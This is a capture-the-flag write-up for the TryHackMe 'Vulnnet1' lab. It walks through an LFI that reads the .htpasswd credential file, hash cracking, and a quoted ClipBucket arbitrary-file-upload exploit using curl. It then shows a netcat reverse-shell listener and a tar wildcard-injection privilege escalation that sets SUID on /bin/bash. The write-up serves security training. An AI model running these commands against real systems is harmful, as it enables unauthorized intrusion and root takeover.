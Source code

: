 ```yaml
---
title: THM Vulnnet1
author: hanhctf
date: 2023-04-06 22:22:22 +0700
categories: [Write-up, THM]
tags: [php]
toc: true
mermaid: true
---
```


# [**_Vulnnet1 room_**](https://tryhackme.com/room/vulnnet1)

## Nmap

With Nmap, see 2 ports open
![](/commons/THM/Vulnnet1/1.nmap.png)

## Analyz the webpage

***View the source of the home page, we see 2 Js files.***  
Check domain vulnnet.thm in them. We found something interesting.

1. Subdomain ```<http://broadcast.vulnnet.thm>```
2. A path URL `referer` ```http://vulnnet.thm/index.php?referer=``` ==> LFI

![](/commons/THM/Vulnnet1/2.LFI-vuln.png)  

## Foothold

With dirsearch, we found some files.   
![](/commons/THM/Vulnnet1/3.dirsearch.png)

==> Find credential in `/etc/apache2/.htpasswd`
![](/commons/THM/Vulnnet1/4.htpasswd.png)

Crack hash with JTR
![](/commons/THM/Vulnnet1/5.crack-hash.png)

With this credential of developers, we can access ```http://broadcast.vulnnet.thm```

webpage with title ClipBucket v4.0
Quick research in exploit-DB ==> [Exploit](https://www.exploit-db.com/exploits/44250)

```
2. Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the web server with no
authentication required.

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/photo_uploader.php"

Furthermore, this vulnerability is also available to authenticated users with
basic privileges:

$ curl --cookie "[--SNIP--]" -F
"coverPhoto=@valid-image-with-appended-phpcode.php"
"http://$HOST/edit_account.php?mode=avatar_bg"   
```

![](/commons/THM/Vulnnet1/6.file-upload.png)

In the terminal, we listen with `nc -nlvp 9001`
And browser ```<http://broadcast.vulnnet.thm/actions/><file_directory>/<filename>.php```

![](/commons/THM/Vulnnet1/7.www-data.png)

Upload `linpeas.sh` to the target machine.  
Run `linpeas.sh`, we found an interesting backup file.  
![](/commons/THM/Vulnnet1/8.svr-man-backup.png)

Download the file to attack the machine.
With JRT --> credential of server-management
![](/commons/THM/Vulnnet1/9.svr-man-cred.png)

**Got user.txt**

## Privilege escalation  

Run `linpeas.sh`, we see a cronjob with root user  
![](/commons/THM/Vulnnet1/10.cronjob.png)  
![](/commons/THM/Vulnnet1/11.code-cronjob.png)  

THIS PROGRAM IS MAKING A BACKUP USING THE **TAR** COMMAND OF THE Documents FOLDER
LETS CHECK GTFOBINS  

```shell
server-management@vulnnet:~/Documents$ echo "" > "--checkpoint-action=exec=sh pwn.sh"
server-management@vulnnet:~/Documents$ echo "" > --checkpoint=1
server-management@vulnnet:~/Documents$ echo "chmod +s /bin/bash" > pwn.sh  
```

![](/commons/THM/Vulnnet1/12.pwn.png)  

**Got root.txt**
